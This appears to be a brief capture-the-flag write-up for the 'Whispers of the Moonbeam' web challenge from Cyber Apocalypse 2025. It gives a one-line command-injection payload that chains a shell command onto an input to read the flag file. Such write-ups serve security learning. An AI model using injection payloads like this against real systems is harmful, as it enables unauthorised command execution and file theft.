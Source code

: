 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Whispers of the Moonbeam Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: web
challenge: Whispers of the Moonbeam
tags: "web, twh, command, injection"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## Whispers of the Moonbeam
> Solved by thewhiteh4t


- Hint of command injection is already given very clearly in the page
- Payload :

```
gossip; cat flag.txt
```

![](https://i.imgur.com/TMZLUhN.png)


